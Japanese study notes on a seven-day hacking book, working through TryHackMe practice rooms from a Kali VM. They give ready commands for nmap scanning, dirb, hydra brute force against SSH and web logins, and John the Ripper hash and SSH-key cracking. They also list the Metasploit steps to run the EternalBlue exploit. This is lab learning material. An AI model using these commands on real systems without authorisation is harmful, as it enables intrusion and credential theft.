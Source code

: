 # 7日間でハッキングを始める本

## 前提

- Kali Linux
    - Parallelsにて環境構築
        - `/Volumes/HDD/Parallels/Kali Linux 2024.2 ARM64.pvm`
    - ID/Pass
        - 共に`parallels`
    - `thm`にてTryHackMeにVPN接続するエイリアス設定済み
    - 基本的に以下の手順で進める
        1. Parallels立ち上げ
        1. ゲストOS（Kali Linux）起動
        1. ゲストOSにて`thm`コマンドでTryHackMeへVPN接続開始
            - フォアグラウンドで実行中の場合はCtrl+C、バックグラウンドで実行中の場合は`sudo pkill openvpn`でVPN接続解除
        1. ホストOSにてTryHackMeへログイン
        1. ホストOSにて任意のルームのターゲットマシンを起動する
    - `7DaysTryHacking 1`として環境構築直後の状態をスナップショットとして保存

## Basic Pentesting

- ポートスキャン
    - `nmap`コマンドを実行
        - `nmap -sV -Pn -oN namp.txt -v IPアドレス`
            - `-sV`：開いているポートのサービスバージョンを自動で特定する
            - `-Pn`：事前にICMPリクエストを送信して確認することなく、直接ポートスキャンを実行するオプション
                - ICMPがブロックされていた際にスキャンせずに終了ことを防ぐ
            - `-oN`：スキャン結果を保存する
            - `--script vuln`を行うことで脆弱性の検出も可能
- 辞書攻撃
    - `dirb`コマンド
        - 引数で指定したファイルに載っている文字列と同じ名前のディレクトリの存在を確かめる
        - 構文
            - `dirb <ターゲットURL> [ワードリストファイル] [オプション]`
            - 例：`dirb http://IPアドレス /usr/share/dirb/wordlists/small.txt`
        - ワードリストファイルを指定しない場合、デフォルトの辞書ファイルを使用する
    - `hydra`コマンド
        - パスワードクラックツール
        - 構文
            - `hydra -l <ユーザー名> -P <パスワードリスト> -t <スレッド数> <ターゲット> <プロトコル>`
            - 例
                - SSHのブルートフォース攻撃
                    ```
                    hydra -l admin -P /path/to/password_list.txt -t 4 192.168.1.100 ssh
                    ```
                    - adminユーザーで、パスワードリストを使い、4スレッドで192.168.1.100のSSH認証を試行
                - HTTP認証のテスト
                    ```
                    hydra -l user -P passwords.txt http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"
                    ```
                    - /loginページで、失敗時に”incorrect”が返る場合に認証試行
    - John the Ripper
        - パスワードハッシュ形式の解析ツール
            - 対応ハッシュ形式
                - UNIX系
                    - /etc/passwd, /etc/shadow
                - Windows LM/NTLM
                - MD5, SHA-1, SHA-256, SHA-512
                - ZIP, PDF, Officeファイルのパスワードハッシュ
        - 使い方例
            - 辞書攻撃
                ```
                john --wordlist=/path/to/wordlist.txt hashes.txt
                ```
            - ルールベース攻撃
                ```
                john --wordlist=/path/to/wordlist.txt --rules hashes.txt
                ```
            - 解析結果の表示
                ```
                john --show hashes.txt
                ```
            - 秘密鍵ファイルのパスワード解析
                1. ハッシュ値抽出
                    ```
                    ssh2john id_rsa > hash.txt
                    ```
                1. 解析実行
                    ```
                    john --wordlist=/path/to/wordlist.txt hash.txt
                    ```
- Samba共有フォルダ
    - `smbclient -L IPアドレス`で指定したIPアドレスのサーバで利用可能な共有フォルダやプリンターなどの情報の一覧を取得する

## Blue

- Metasploit Framework
    - オープンソースのセキュリティ評価・脆弱性検証用フレームワーク
    - 主要なモジュールの種類
        - exploit
            - 脆弱性を突いてシステムに侵入するための攻撃コード
        - payload
            - exploit成功後に実行されるプログラム。シェルの取得やリバース接続など。
        - auxiliary
            - ポートスキャン、バージョン検出、ネットワーク解析など、攻撃補助のための機能
        - post
            - 侵入後にパスワードの取得やキーロガーの設置などを行う
        - encoder
            - ペイロードの検出回避や難読化のためのエンコード処理
        - nop
            - 攻撃コードの安定動作のための無操作命令
    - 使い方の概要
        1. ターゲットの選定と情報収集：auxiliaryモジュールでスキャンや調査を実施
        1. 脆弱性の特定と選択：exploitモジュールを選択し、ターゲットの脆弱性に合わせて設定
        1. ペイロードの選択：侵入後に何を行うか（シェル取得、ファイル転送など）を選ぶ
        1. 攻撃の実行：設定を確認し、攻撃を実行
        1. 侵入後の操作：postモジュールで追加操作や情報取得を行う
        - 使用例
            1. msfconsoleの起動
                ```
                msfconsole
                ```
            1. モジュールの検索
                ```
                search CVE-2017-0143
                ```
            1. モジュールの選択
                ```
                use exploit/windows/smb/ms17_010_eternalblue
                ```
            1. モジュールのオプションの確認と設定
                ```
                show options
                set RHOSTS ターゲットマシンのIPアドレス
                set LHOST ローカルマシンのIPアドレス
                ```
            1. エクスプロイトの実行
                ```
                exploit
                ```

